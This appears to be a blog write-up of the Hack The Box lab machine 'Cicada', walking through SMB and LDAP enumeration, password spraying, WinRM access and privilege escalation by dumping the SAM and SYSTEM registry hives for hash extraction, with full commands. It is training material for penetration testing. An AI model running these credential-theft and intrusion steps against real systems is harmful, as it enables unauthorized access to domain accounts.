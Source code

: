 ```yaml
---
layout: post
title: HTB Cicada Writeup
date: 2024-10-20
categories: [HTB, Machines]
tags: [htb,writeup, windows, smb, ldap, active directory]
toc: true
published: true
updated: 2025-03-03
---
```

![Cicada](https://tuxpad.github.io/assets/images/htb/machines/cicada/cicada.png)

Cicada is a Windows machine rated as easy. It's a good box for a beginner to practice AD enumeration.



# Initial Enumeration


We start off with a port scan so we know what we have to work with.  
As we're not worried about detection we can use Rustscan and increase the speed of Nmap.

```bash
TARGET=10.10.11.35

rustscan --addresses $TARGET -- -sC -sV -T4 -oA portscan
```

Rustscan returns quite a few open ports, and as we already know that it's a Windows host,
we can see that it's likely an AD DC because we can recognize the standard ports of DNS (53), Kerberos (88),
RPC (135), SMB (139 & 445), LDAP (389,636,3268,3269) as well as WinRM (5985).

When we get the results from nmap we can see that this is indeed the case, with the domain being `cicada.htb`,
and that the hostname is `CICADA-DC.cicada.htb`, which we can add to `/etc/hosts`.

SMB is a good place to start, so we begin with checking if we can get a [Null/Guest](https://preview.sensepost.com/blog/2024/guest-vs-null-session-on-windows/) session.
  
First off, we'll list the shares.
```bash
smbclient -L $TARGET

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

There are two interesting shares, `DEV` and `HR`.

We're unable to read the `DEV` share, but when connecting to the `HR` using anonymous auth,
we find a file we can download and read.

```bash
smbclient -U '' --password '' //$TARGET/HR 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

		4168447 blocks of size 4096. 404417 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (1.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)

<ctrl+d>

cat Notice\ from\ HR.txt 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: <redacted>

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Now we have a default password! 

# Getting a foothold  

We could also achieve the same thing using guest authentication, and now this comes into play.
Although we have a default password, we need find a user that hasn't changed password. 

Usernames can be enumerated using NetExec smb --rid-brute, which on this box can be done using a guest session, but not a null session.

```bash
nxc smb $TARGET -u '' -p '' --rid-brute   
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\: 
SMB         10.10.11.35     445    CICADA-DC        [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.


nxc smb $TARGET -u 'Guest' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Guest: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)

<snip>

SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

To get a list of users we can save the output to a temporary file and clean it up using awk and grep:  
`cat tmp.txt | grep -i euser | awk '{print $6}' |  awk -F\\ '{print $2}' > users.txt`

Now that we have a list of users we can do a password spray attack with the default password.

```bash
PASS='<redacted>'

nxc smb $TARGET -u users3.txt -p $PASS --continue-on-success
```

We find that the domain user `michael.wrightson` still has the default password, which gives us a valid set of credentials to work with.
When checking SMB, however, we find that we can't access any other shares. 
 
We're unable use the credentials to connect using WinRM, but perhaps we can authenticate with LDAP. 
 
```bash
nxc ldap cicada.htb -u $USER -p $PASS           
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:<redacted>
```

Success! We can now enumerate domain objects.

To get all the objects we can run the following command:
```bash
ldapsearch -H ldap://$TARGET -b "dc=cicada,dc=htb" -D $USER@cicada.htb -w $PASS "(objectClass=*)" > ldap.txt

```
This gives quite a lot of output though (5911 lines of text), but it doesn't hurt to have it saved if we might need it later.
We can also do a search for users by using `objectClass=person` and save to a file for only the user objects.

Now that we have pulled some domain info we can see if there's anything stored in the user descriptions using grep:
```bash
cat ldap.txt | grep -i desc
```

In one of the descriptions we can read `Just in case I forget my password is <redacted>`.

We could do another password spray to get the username, but why poke at the target more than necessary?
Even though being discovered isn't a factor, the information is already saved, so we can just grep for the phrase using the flag `-A` to display lines below the match.

```bash
grep 'my passw' -A 23 ldap.txt
```

Now we can see that the user is `david.orelious`. 
 
Yet again we go back to SMB and NetExec, and we find that our new user can access the `DEV` share.  
Inside the share we find a script called Backup_script.ps1, which contains yet another set of credentials.

Using our third set of credentials we can finally connect to the host using WinRM.
```bash
evil-winrm -i $TARGET -u $USER -p $PASS
```

Now we can collect the user flag.

# Privilege Escalation
A good place to start is to check the users privileges. 

```shell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Here we see that the user has `SetBackupPrivilege` set, which means that the user can read all
files, and thus we can dump registry hives to get NTLM hashes for cracking or pass-the-hash attacks.

```shell
mkdir C:\temp
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
download C:\temp\sam
download C:\temp\system
```

After removing the files from the server and disconnecting, we can now use pypykatz to extract hashes:

```bash
pypykatz registry --sam sam system
```

With the Administrators hash to connect using WinRM and collect the root flag from the admin desktop.
